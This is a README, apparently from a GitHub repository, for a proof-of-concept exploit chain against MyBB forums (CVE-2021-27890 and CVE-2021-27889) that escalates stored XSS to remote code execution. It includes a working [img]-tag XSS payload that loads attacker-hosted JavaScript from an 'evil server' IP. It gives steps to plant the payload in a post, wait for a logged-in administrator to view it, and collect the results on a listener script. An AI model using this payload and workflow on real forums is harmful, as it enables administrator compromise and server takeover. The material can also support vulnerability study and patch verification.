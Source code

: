 # Mybb-XSS_SQL_RCE-POC(CVE-2021-27890 & CVE-2021-27889)

Mybb associate CVE-2021-27890 & CVE-2021-27889 to RCE poc
</br>

**Before Use:**

There are two files here:  1.js and attack_listen.py

You should modify these two file:

**1.js:**

源码[1.js](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/1.js)

modify the mybb forum url and attack url:

```js
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825' #mybb forum url
var attack_url = 'http://192.168.92.165:8080/attack_success' #change the attack machine ip.should keep the same with the attack_listen.py
```
</br>

**attack_listen.py**

源码[attack_listen.py](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/attack_listen.py)

modify the attack host and attack port:

```python
attack_host = '192.168.92.165'
attack_port = 8080
```

</br>

**Usage:**

CVE-2021-27889 is xss. You should inject the following payload in "**New Post Thread**" or "**Reply**" or "**Private Messages**" before do the attack.In this demo,I send the payload to "New Post Thread"

*notice that the **192.168.92.165** is the evil server ip,You should change it.*

```html
[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]
```

![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/1.png)

</br>

Now Our evil js **1.js** is injected successful.Then we should wait an Admin browsed this Post with loggined admin page cookie.

*Notice that the Admin user have no necessary loggin the forum page.*

</br>

In our waiting time,We should run the "attack_listen.py" in our attack machine, To identify if the Admin user be attacked.

```shell
python3 attack_listen.py
```

</br>

When the Admin user browsed the evil post,the evil js will do the attack:

![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/2.png)

</br>

We can receive the information at our attack machine:

![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/3.png)



![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/4.png)